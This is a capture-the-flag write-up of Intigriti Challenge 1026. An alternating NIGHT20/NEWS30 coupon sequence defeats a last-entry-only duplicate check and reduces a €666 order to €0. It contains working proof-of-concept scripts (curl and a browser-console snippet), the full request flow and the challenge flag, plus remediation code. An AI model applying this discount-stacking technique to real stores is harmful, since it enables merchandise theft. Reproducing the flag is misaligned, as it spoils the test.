


# The 100% Midnight Vault: How an Alternating Coupon Sequence Bypassed Deduplication in Intigriti Challenge 1026

> **Challenge:** Intigriti Monthly CTF — Challenge 1026  
> **Author:** Intigriti  
> **Vulnerability Class:** Business Logic Error / E-Commerce Discount Manipulation  
> **Severity:** Medium  
> **Flag:** `INTIGRITI{094638e6-ba2f-4c50-8bb4-41ced0d5debd}`  

---

## 1. Executive Summary & The Economic Paradox

Every e-commerce platform relies on a strict invariant: **pricing logic must be deterministic and immune to client-driven sequence manipulation.** If a platform promises a maximum allowable discount, no combination of user actions should ever exceed that ceiling.

In Intigriti’s **Challenge 1026**, players were dropped into a minimalist e-commerce store with an economic puzzle that appeared mathematically impossible on paper:

* **Initial User Credit:** `€66.00` (6,600 cents) automatically provisioned to an anonymous session.
* **Target Protected Item:** The exclusive *Midnight Collection* (`midnight-vault`), priced at `€666.00` (66,600 cents).
* **Available Promotional Codes:**
  * `NIGHT20`: Grants **20% off**; restricted to carts containing the Midnight Collection.
  * `NEWS30`: Grants **30% off**; unlocked only after submitting a newsletter subscription for a first-time order.

Using both coupons legitimately yields a combined **50% discount** (33,300 cents off), cutting the total from `€666.00` down to `€333.00`. However, with only `€66.00` in wallet credit, the checkout endpoint immediately rejects the transaction with an HTTP `402 Payment Required`:

```http
POST /api/checkout HTTP/2
Host: challenge-1026.challenges.intigriti.io
Content-Type: application/json

{}

HTTP/2 402 Payment Required
Content-Type: application/json

{
  "ok": false,
  "error": "insufficient_credit",
  "message": "Your store credit does not cover this order."
}
```

The app seemed locked down against simple replays—submitting `NIGHT20` twice in immediate succession returned a duplicate coupon error. Yet, by analyzing how the backend maintained its internal cart state, I uncovered a fatal flaw in the deduplication boundary: **the server only validated uniqueness against the most recent entry in the promotions array.**

By interleaving the two discount codes (`NIGHT20` → `NEWS30` → `NIGHT20` → `NEWS30`), the duplicate check was repeatedly blind-sided. Rather than rejecting the re-applied codes, the backend handler re-processed each coupon, incrementing their internal application counts (`count: 2`) and stacking the discounts to **100% off** (`€0.00`). 

Purchasing the €666.00 Midnight Collection for €0.00 preserved the €66.00 store credit untouched and returned the flag on the official order receipt.

---

## 2. Target Architecture & Reconnaissance

Exploring the target environment revealed a clean RESTful API powering the checkout flow:

```
https://challenge-1026.challenges.intigriti.io
├── GET  /api/session        # Initializes session cookie & provisions 6,600 cents credit
├── POST /api/newsletter     # Subscribes email & unlocks coupon NEWS30
├── POST /api/cart/items     # Adds items to cart (e.g., "midnight-vault")
├── POST /api/cart/coupon    # Applies promotional discount code to active cart
├── GET  /api/cart           # Fetches current cart state, promotions, and subtotal
└── POST /api/checkout       # Finalizes order, checks credit, and issues receipt
```

### Initial State Mapping

A fresh anonymous session begins by calling `/api/session`:

```http
GET /api/session HTTP/2
Host: challenge-1026.challenges.intigriti.io

HTTP/2 200 OK
Set-Cookie: session=eyJ...<opaque>; Path=/; HttpOnly; SameSite=Lax
Content-Type: application/json

{
  "ok": true,
  "credit": 6600
}
```

Adding the *Midnight Collection* (`midnight-vault`) sets the cart baseline:

```http
POST /api/cart/items HTTP/2
Host: challenge-1026.challenges.intigriti.io
Content-Type: application/json

{
  "productId": "midnight-vault"
}

HTTP/2 200 OK
Content-Type: application/json

{
  "ok": true,
  "items": [{"productId": "midnight-vault", "price": 66600, "qty": 1}],
  "subtotal": 66600,
  "discount": 0,
  "total": 66600
}
```

Next, subscribing an arbitrary email unlocks `NEWS30`:

```http
POST /api/newsletter HTTP/2
Host: challenge-1026.challenges.intigriti.io
Content-Type: application/json

{
  "email": "player@example.com"
}

HTTP/2 200 OK
Content-Type: application/json

{
  "ok": true,
  "code": "NEWS30",
  "message": "Your first-order code is ready."
}
```

---

## 3. The Flawed State Machine: Root-Cause Analysis

Why did the application fail to prevent coupon stacking? The vulnerability stems from an **asymmetric validation design**: the deduplication filter and the promotion mutation handler operated on two completely different mental models of the cart.

### The Lookback Bug (`promotions[-1]`)

When a user submits a coupon via `POST /api/cart/coupon`, the backend performs a check to prevent users from applying the same code multiple times. If you submit `NIGHT20` followed immediately by `NIGHT20`, the server blocks the second attempt with a duplicate error.

However, observing the response structure revealed that `promotions` is stored as an ordered list:

```json
"promotions": [
  {"code": "NIGHT20", "percent": 20, "amount": 13320, "count": 1},
  {"code": "NEWS30", "percent": 30, "amount": 19980, "count": 1}
]
```

When checking whether a newly submitted code was already applied, the developers made a classic indexing assumption: they only checked the **tail** of the list (i.e. `cart["promotions"][-1]`) instead of scanning the entire collection (`code in cart.promotions`).

### The Mutation Paradox (`count: count + 1`)

Even worse was what happened when a code passed this lookback check. 

Instead of treating coupons as unique boolean flags on the cart, the server-side promotion handler supported an internal counter: `"count"`. When a code passed the duplicate check, the backend searched the array for an existing entry:
1. If the code did not exist at all, it appended a new entry with `count: 1`.
2. **If the code already existed in the array**, the handler did not throw an error—it assumed valid authorization and simply **incremented `count` from 1 to 2**, recalculating and doubling `amount`!

The client-side UI even contained logic to render `× count` whenever `count > 1`, confirming that the multi-count data model was baked into the application's design.

### State Transition Diagram



Because the bug is purely deterministic logic, no race condition, concurrent threads, or millisecond-level timing windows are required.

---

## 4. Step-by-Step Exploitation Walkthrough

Here is the exact request/response flow detailing the alternating exploitation chain.

### Step 1: Applying NIGHT20 (First Instance)
We submit `NIGHT20`. The cart has no prior promotions, so it applies cleanly:

```http
POST /api/cart/coupon HTTP/2
Host: challenge-1026.challenges.intigriti.io
Content-Type: application/json

{"code": "NIGHT20"}

HTTP/2 200 OK
Content-Type: application/json

{
  "ok": true,
  "discount": 13320,
  "total": 53280,
  "promotions": [
    {
      "code": "NIGHT20",
      "percent": 20,
      "amount": 13320,
      "count": 1
    }
  ]
}
```

### Step 2: Applying NEWS30 (First Instance)
We submit `NEWS30`. The backend checks the last entry in `promotions`, which is `NIGHT20`. Since `NIGHT20 != NEWS30`, the check passes:

```http
POST /api/cart/coupon HTTP/2
Host: challenge-1026.challenges.intigriti.io
Content-Type: application/json

{"code": "NEWS30"}

HTTP/2 200 OK
Content-Type: application/json

{
  "ok": true,
  "discount": 33300,
  "total": 33300,
  "promotions": [
    {"code": "NIGHT20", "percent": 20, "amount": 13320, "count": 1},
    {"code": "NEWS30", "percent": 30, "amount": 19980, "count": 1}
  ]
}
```
*Current state: 50% discount applied. If we tried to check out now, we would hit the 402 wall because 33,300 cents > 6,600 cents.*

### Step 3: Re-Applying NIGHT20 (The Flaw in Action)
Now we re-submit `NIGHT20`. 

The server evaluates `promotions[-1]["code"]`. The last entry is currently `NEWS30`. Because `NEWS30 != NIGHT20`, the duplicate check is bypassed! The backend finds the earlier `NIGHT20` object, increments its counter to `2`, and recalculates its discount from 13,320 to 26,640 cents:

```http
POST /api/cart/coupon HTTP/2
Host: challenge-1026.challenges.intigriti.io
Content-Type: application/json

{"code": "NIGHT20"}

HTTP/2 200 OK
Content-Type: application/json

{
  "ok": true,
  "discount": 46620,
  "total": 19980,
  "promotions": [
    {"code": "NIGHT20", "percent": 20, "amount": 26640, "count": 2},
    {"code": "NEWS30", "percent": 30, "amount": 19980, "count": 1}
  ]
}
```

### Step 4: Re-Applying NEWS30 (Reaching 100% Discount)
We repeat the trick for `NEWS30`. The last item in the list is now `NIGHT20`, so `NEWS30` passes the duplicate check again. Its counter is incremented to `2`, bumping its amount to 39,960 cents:

```http
POST /api/cart/coupon HTTP/2
Host: challenge-1026.challenges.intigriti.io
Content-Type: application/json

{"code": "NEWS30"}

HTTP/2 200 OK
Content-Type: application/json

{
  "ok": true,
  "discount": 66600,
  "total": 0,
  "canCheckout": true,
  "promotions": [
    {"code": "NIGHT20", "percent": 20, "amount": 26640, "count": 2},
    {"code": "NEWS30", "percent": 30, "amount": 39960, "count": 2}
  ]
}
```

The arithmetic resolves to:
$$\text{Total Discount} = (2 \times 20\%) + (2 \times 30\%) = 40\% + 60\% = 100\%$$
$$\text{Final Cart Total} = 66,600 - 66,600 = 0 \text{ cents (€0.00)}$$

### Step 5: Checkout & Flag Extraction
With `total: 0`, the validation condition `total <= credit` (`0 <= 6600`) holds true. We trigger the checkout:

```http
POST /api/checkout HTTP/2
Host: challenge-1026.challenges.intigriti.io
Content-Type: application/json

{}

HTTP/2 200 OK
Content-Type: application/json

{
  "ok": true,
  "receipt": {
    "orderId": "BLE-93E99959F5",
    "paid": 0,
    "credit": 6600,
    "message": "Your order is confirmed and being prepared.",
    "flag": "INTIGRITI{094638e6-ba2f-4c50-8bb4-41ced0d5debd}"
  }
}
```

---

## 5. Visual Proof of Exploitation

To substantiate the vulnerability, the entire flow was captured across terminal output and checkout confirmation receipts.

> **Figure 1: Full 5-Step Reproduction via Terminal**  
> Running the deterministic sequence via `curl` with a clean cookie jar confirms that both re-applied coupons return HTTP 200 with `count: 2`, reducing the final total to zero.
> 
> 

> **Figure 2: Confirmed Checkout Receipt & Flag Capture**  
> Inspecting the checkout receipt confirms order `BLE-93E99959F5` completed with `paid: 0`, leaving the original `credit: 6600` untouched and revealing the flag.
> 
> 

---

## 6. Automated Proof of Concept Scripts

### Option A: Shell Reproduction Script (`curl`)

Save and run the following script in a clean Linux/macOS terminal. It initializes an isolated temporary cookie jar to simulate a fresh anonymous visitor:

```bash
#!/usr/bin/env bash
# Intigriti Challenge 1026 - Exploit PoC
# Author: issah721

set -euo pipefail

BASE='https://challenge-1026.challenges.intigriti.io'
JAR="$(mktemp)"
trap 'rm -f "$JAR"' EXIT

req() {
  curl -sS -c "$JAR" -b "$JAR" \
    -H 'Content-Type: application/json' \
    -w '\nHTTP %{http_code}\n' "$@"
}

echo "[*] Step 1: Initializing anonymous session..."
req "$BASE/api/session"

echo -e "\n[*] Step 2: Unlocking NEWS30 via newsletter subscription..."
req -X POST -d '{"email":"order-direct@example.com"}' "$BASE/api/newsletter"

echo -e "\n[*] Step 3: Adding Midnight Collection (€666.00) to cart..."
req -X POST -d '{"productId":"midnight-vault"}' "$BASE/api/cart/items"

echo -e "\n[*] Step 4: Alternating coupon sequence (NIGHT20 -> NEWS30 -> NIGHT20 -> NEWS30)..."
for code in NIGHT20 NEWS30 NIGHT20 NEWS30; do
  printf '\n--- Applying %s ---\n' "$code"
  req -X POST -d "{\"code\":\"$code\"}" "$BASE/api/cart/coupon"
done

echo -e "\n[*] Step 5: Checking cart total before checkout..."
req "$BASE/api/cart"

echo -e "\n[*] Step 6: Checking out for €0.00..."
req -X POST -d '{}' "$BASE/api/checkout"
```

### Option B: Browser Console One-Liner

Open Chrome or Firefox, navigate to `https://challenge-1026.challenges.intigriti.io/store` in an Incognito window, open DevTools (`F12`), and paste the following snippet into the **Console**:

```javascript
(async () => {
  const api = (path, body) => fetch(path, {
    method: body === undefined ? 'GET' : 'POST',
    headers: body === undefined ? {} : {'Content-Type': 'application/json'},
    credentials: 'same-origin',
    body: body === undefined ? undefined : JSON.stringify(body)
  }).then(r => r.json());

  console.log('[*] Initializing session & cart...');
  await api('/api/session');
  await api('/api/newsletter', { email: 'player@example.com' });
  await api('/api/cart/items', { productId: 'midnight-vault' });

  console.log('[*] Executing alternating coupon bypass...');
  for (const code of ['NIGHT20', 'NEWS30', 'NIGHT20', 'NEWS30']) {
    const res = await api('/api/cart/coupon', { code });
    console.log(`[+] Applied ${code}: Discount = €${res.discount / 100}, Total = €${res.total / 100}`);
  }

  const checkout = await api('/api/checkout', {});
  console.log('[!] ORDER CONFIRMED! Receipt:', checkout.receipt);
  console.log(`%c[FLAG] ${checkout.receipt.flag}`, 'color: #00ff00; font-size: 16px; font-weight: bold;');
})();
```

---

## 7. Business & Technical Impact

Although discovered within a CTF sandbox, this vulnerability reflects serious flaws seen in real-world e-commerce platforms:

1. **Direct Financial Loss & Inventory Theft:**  
   In a production environment, an attacker could acquire arbitrary high-value merchandise for €0.00 without expending promotional vouchers or payment balances.
2. **Breakdown of Payment & Ledger Integrity:**  
   The application accepted a 100% discount and generated an official invoice/receipt without triggering payment gateway verification or decrementing user credit balances. This causes reconciliation discrepancies between inventory databases and payment settlement ledgers.
3. **Zero Exploitation Friction:**  
   Because the exploit requires no concurrency, race conditions, or third-party interaction, it is trivially scriptable. Automated scrapers could systematically clear store inventory at zero marginal cost.

---

## 8. Remediation & Hardening Guide

Fixing this vulnerability requires addressing both input validation and cart state management.

### 1. Enforce Full-Collection Deduplication
The immediate vulnerability can be mitigated by validating incoming promo codes against all existing entries in the cart, rather than just the last applied index:

```python
# ❌ VULNERABLE: Only inspects the tail of the promotions array
if cart["promotions"] and cart["promotions"][-1]["code"] == code:
    return jsonify({"error": "coupon_already_applied"}), 409

#  SECURE: Validates uniqueness against the entire collection
if any(promo["code"] == code for promo in cart["promotions"]):
    return jsonify({"error": "coupon_already_applied"}), 409
```

### 2. Disallow Promotion Increment Counters
The cart model should treat promotional codes as a discrete set (`Set<String>`) rather than an accumulator with a mutable `count` property. If a code is already present, the request must fail.

### 3. Recompute Discounts from Source-of-Truth at Checkout
Never trust intermediate discount values stored in the session or cart object during final checkout. The checkout handler should independently recalculate prices directly from product catalogs and active promotional rules:

```python
def calculate_checkout_total(cart, user_session):
    subtotal = sum(item["price"] * item["qty"] for item in cart["items"])
    discount = 0
    seen_promotions = set()

    for promo in cart["promotions"]:
        code = promo["code"]
        
        # Enforce strict single-use per cart
        if code in seen_promotions:
            continue
        seen_promotions.add(code)
        
        # Verify business eligibility rules dynamically
        if code == "NIGHT20" and not any(i["productId"] == "midnight-vault" for i in cart["items"]):
            continue
        if code == "NEWS30" and (not user_session.get("subscribed") or user_session.get("order_count", 0) > 0):
            continue

        discount += get_coupon_rate(code) * subtotal // 100

    # Ensure total discount can never exceed subtotal
    discount = min(discount, subtotal)
    final_total = max(0, subtotal - discount)
    
    return subtotal, discount, final_total
```

### 4. Regression Test Cases
Add automated unit tests verifying that promotion sequences cannot be stacked:

* `Test_Sequential_Duplicate`: `NIGHT20` → `NIGHT20` $\rightarrow$ **Assert HTTP 409**
* `Test_Alternating_Duplicate`: `NIGHT20` → `NEWS30` → `NIGHT20` $\rightarrow$ **Assert HTTP 409**
* `Test_Full_Alternation_Stack`: `NIGHT20` → `NEWS30` → `NIGHT20` → `NEWS30` $\rightarrow$ **Assert HTTP 409**
* `Test_Cart_Total_Boundary`: Verify that even with valid stacked promotions, the total discount cannot exceed the configured business cap.

---

## 9. Conclusion & Key Takeaways

Business logic flaws in state machines remain among the most overlooked vulnerabilities in modern web applications. While scanners and automated WAFs easily catch standard injection syntax, they are blind to sequences where every individual HTTP request is syntactically valid JSON.

By questioning developer assumptions about array lookups and testing the transitions of the cart state machine, we turned two modest 20% and 30% coupons into a 100% shopping spree.

*Special thanks to Intigriti for another creative monthly challenge!*
